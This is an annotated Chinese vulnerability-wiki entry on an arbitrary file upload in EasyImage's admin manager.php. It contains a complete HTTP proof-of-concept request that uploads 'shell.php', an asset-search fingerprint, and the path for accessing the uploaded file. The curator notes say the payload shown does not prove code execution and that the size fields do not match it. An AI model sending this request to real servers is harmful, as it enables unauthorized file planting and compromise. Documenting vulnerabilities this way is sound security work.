


# EasyImage manager后台上传

## 条目说明

- 对象与具体问题：EasyImage；manager后台上传
- 版本、配置及部署条件：后台文件管理器；版本未知
- 认证与权限前提：明确需登录，前置任意读未给出处
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 正文234纯文本落地不证明PHP执行/服务器控制
- dztotalfilesize583与实际3字符不符，Content-Length亦固定；分块逻辑前提缺
- 缺产品版本/根因/安全补丁

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

EasyImage manager.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件到服务器获取服务器权限

### 漏洞影响

```
EasyImage
```

### 网络测绘

```
app="EasyImage-简单图床"
```

### 漏洞复现

主页面



登陆后台后发送POC (通过任意文件读取获取账号密码)

```http
POST /admin/manager.php?p= HTTP/1.1
Host: 
Accept: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEUCF9Yq83AkaO6sv
Cookie: Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680341989; auth=a%3A2%3A%7Bi%3A0%3Bs%3A7%3A%22tossone%22%3Bi%3A1%3Bs%3A32%3A%22590368bca375c2f8fe93df7d253481e8%22%3B%7D; Hm_lpvt_c790ac2bdc2f385757ecd0183206108d=1680342144; filemanager=sdeemhj3b9aeoretftrlijjh25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36

------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzuuid"

7e4fad9a-3545-4ed6-b655-b3e3a6b2978c
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkindex"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalfilesize"

583
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunksize"

10000000
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalchunkcount"

1
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkbyteoffset"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="p"


------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="fullpath"

shell.php
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

234

------WebKitFormBoundaryEUCF9Yq83AkaO6sv--
```

> 请求长度说明：原资料 Content-Length 为 1622；静态长度已移除，应由客户端根据最终请求体的字节数生成。



上传访问地址为

```
/i/shell.php
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
